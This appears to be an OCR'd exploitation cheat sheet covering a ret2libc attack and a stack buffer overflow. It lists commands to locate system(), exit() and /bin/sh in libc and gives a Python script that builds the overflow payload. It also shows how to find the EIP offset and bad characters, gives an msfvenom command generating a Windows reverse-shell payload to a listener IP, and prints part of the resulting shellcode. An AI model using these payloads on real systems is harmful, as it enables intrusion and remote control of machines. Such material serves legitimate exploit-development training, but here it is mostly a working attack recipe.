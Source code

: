 1. find the libc address 
```bash
ldd <binary>
```
2. find the system() address
```bash
locate libc.so.6
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
3. find the exit() address
```bash
locate libc.so.6
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
```
4. find /bin/sh in libc
```bash
strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
5. create simple python script to print payload
```python
import struct

junk = "A" * 52

libc_addr = 0xf7d79000
sh_addr = struct.pack('<I', libc_addr + 0x0015ba0b)
system_addr = struct.pack('<I', libc_addr + 0x0003ada0)
exit_addr = struct.pack('<I', libc_addr + 0x0002e9d0)

payload = junk + system_addr + exit_addr + sh_addr

print payload
```

## Example
```
# First try to get exact overflow with either msf-pattern_create or by manual/scripted fuzzing
# Example: Offset at 1252
# Overwrite EIP with 'B's and check with debugger if a register points into memory that we can control
#
# Example: 
# < 1252 >
# AAA...AABBBBCCCCCCCCCCCCCCCCCC
#         \  /\                 /
#          \/  \               /
#         EIP  ESP points to this
#
# Check for badchars, see https://github.com/cytopia/badchars
# Simply paste 'A's and the badchars, follow the dump at crash and check what characters are not allowed '\x00'
# Example badchars: \x0a\x1a\x1b\xae\xce\x69
#
# Generate shellcode
# msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=192.168.119.232 LPORT=4444 -f python -b "\x0a\x1a\x1b\xae\xce\x69"
# => 351 bytes
buf =  b"" 
buf += b"\xda\xcb\xd9\x74\x24\xf4\xbe\xec\xf0\x80\xa0\x5b\x33"
buf += b"\xc9\xb1\x52\x83\xeb\xfc\x31\x73\x13\x03\x9f\xe3\x62"
buf += b"\x55\xa3\xec\xe1\x96\x5b\xed\x85\x1f\xbe\xdc\x85\x44"
buf += b"\xcb\x4f\x36\x0e\x99\x63\xbd\x42\x09\xf7\xb3\x4a\x3e"
buf += b"\xb0\x7e\xad\x71\x41\xd2\x8d\x10\xc1\x29\xc2\xf2\xf8"
buf += b"\xe1\x17\xf3\x3d\x1f\xd5\xa1\x96\x6b\x48\x55\x92\x26"
buf += b"\x51\xde\xe8\xa7\xd1\x03\xb8\xc6\xf0\x92\xb2\x90\xd2"
```
